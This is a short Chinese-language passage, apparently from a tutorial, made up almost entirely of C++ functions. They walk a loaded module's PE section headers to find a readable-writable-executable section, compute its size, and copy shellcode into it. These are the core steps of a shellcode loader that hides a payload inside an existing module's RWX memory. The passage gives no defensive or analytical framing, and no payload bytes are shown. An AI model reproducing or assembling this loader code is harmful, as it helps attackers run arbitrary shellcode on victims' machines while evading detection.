 
找到RWX块的偏移地址

    
    
    DWORD_PTR FindRWXOffset(HMODULE hModule) {  
        IMAGE_NT_HEADERS* ntHeader = ImageNtHeader(hModule);  
        if (ntHeader != NULL) {  
            IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);  
            for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {  
                if ((sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE) && (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE) && (sectionHeader->Characteristics & IMAGE_SCN_MEM_READ)) {  
                    DWORD_PTR baseAddress = (DWORD_PTR)hModule;  
                    DWORD_PTR sectionOffset = sectionHeader->VirtualAddress;  
                    DWORD_PTR sectionSize = sectionHeader->SizeOfRawData;  
                    std::cout << "Base Adress : " <<std::hex<< baseAddress << std::endl;  
                    std::cout << "Section Offset : " << std::hex << sectionOffset << std::endl;  
                    std::cout << "Size of section : " << sectionSize << std::endl;  
                    return sectionOffset;  
                }  
                sectionHeader++;  
            }  
        }  
        return 0;  
    }  
    

计算RWX块大小

    
    
    DWORD_PTR FindRWXSize(HMODULE hModule) {  
        IMAGE_NT_HEADERS* ntHeader = ImageNtHeader(hModule);  
        if (ntHeader != NULL) {  
            IMAGE_SECTION_HEADER* sectionHeader = IMAGE_FIRST_SECTION(ntHeader);  
            for (WORD i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {  
                if ((sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE) && (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE) && (sectionHeader->Characteristics & IMAGE_SCN_MEM_READ)) {  
                    DWORD_PTR sectionSize = sectionHeader->SizeOfRawData;  
                    //std::cout << "Size of section : " << sectionSize << std::endl;  
                    return sectionSize;  
                }  
                sectionHeader++;  
            }  
        }  
        return 0;  
    }  
    

往RWX中复制shellcode

    
    
    void WriteCodeToSection(LPVOID rwxSectionAddr, const char* shellcode, SIZE_T sizeShellcode) {  
        memcpy((LPVOID)rwxSectionAddr, shellcode, sizeShellcode);  
        //std::cout << sizeShellcode << " bytes of shellcode Written to RWX Memory Region\n";  
    }  
    